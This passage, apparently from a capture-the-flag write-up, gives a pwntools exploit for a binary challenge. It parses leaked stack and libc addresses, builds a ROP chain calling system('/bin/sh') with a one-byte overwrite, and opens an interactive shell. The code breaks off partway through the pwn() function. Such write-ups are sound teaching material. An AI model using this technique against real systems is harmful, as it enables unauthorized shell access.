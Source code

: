 ```python
payload  = p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rdi+1)
payload += p64(libc.sym.system)
payload += b'\x90'*(offset - len(payload))
payload += one_byte
```

After we overwrite it with the last byte of our buf address, we can return there and execute whatever it has inside it.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge5" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF(e.runpath + b"./libc.so.6") 

LOCAL = False

prompt = ">"

def ret2libc(r, prompt, offset):

  r.recvuntil("address: [")
  stack_addr = int(r.recvuntil(']')[:-1], 16)
  log.info(f"Stack address @ {hex(stack_addr)}")
  r.recvuntil("GOT:    [")
  libc.address = int(r.recvuntil(']')[:-1], 16) - libc.sym.printf
  log.info(f"Libc base     @ {hex(libc.address)}")
  one_byte = stack_addr & 0xff
  log.info(f"One byte:    {hex(one_byte)}")
  one_byte = p64(one_byte-8)[:1]
  
  # Craft payload to call system("/bin/sh") and spawn shell
  pop_rdi  = rop.find_gadget(["pop rdi"])[0]
  payload  = p64(pop_rdi+1)
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(pop_rdi+1)
  payload += p64(libc.sym.system)
  payload += b'\x90'*(offset - len(payload))
  payload += one_byte
  log.info(f"Len payload: {len(payload)}")
  r.sendafter(prompt, payload)
  r.interactive()


def pwn():
  # Find the overflow offset
  offset = 64
  
  # Open a local process or a remote instance
  if LOCAL:
```